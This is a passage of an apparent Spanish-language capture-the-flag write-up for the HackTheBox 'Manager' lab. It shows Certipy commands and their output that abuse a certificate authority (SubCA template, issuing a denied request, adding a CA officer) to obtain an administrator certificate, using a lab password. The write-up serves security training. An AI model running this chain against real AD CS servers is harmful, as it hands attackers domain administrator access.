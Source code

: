 Para empezar, solicitamos un certificado basado en la **plantilla SubCA**.
```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 26
Would you like to save the private key? (y/N) y
[*] Saved private key to 26.key
[-] Failed to request certificate
```
Esta solicitud será denegada, pero guardaremos la clave privada y anotaremos el ID de la solicitud.

Ahora, podemos emitir la solicitud de certificado denegada con el comando `ca` y el parámetro `-issue-request`, que sería el **Request ID**:
```bash
certipy ca -ca 'manager-DC01-CA' -issue-request 26 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
Vamos muy bien.

Por último, podemos recuperar el certificado emitido con el comando `req` y el parámetro `-retrieve`, que sería el mismo **Request ID**:
```bash
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 26
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 26
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '26.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
Excelente, hemos concluido el ataque con éxito.

En caso de que tengas algún error por el tiempo que toma realizar este ataque, puedes usar este oneliner que ejecuta todos los pasos que hemos hecho, solo identifica bien el número del **Request ID** que podrías obtener, ya que es el único dato que hay que cambiar en caso de que falle:
```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb && certipy ca -ca 'manager-DC01-CA' -issue-request <requestID> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve <requestID>
```
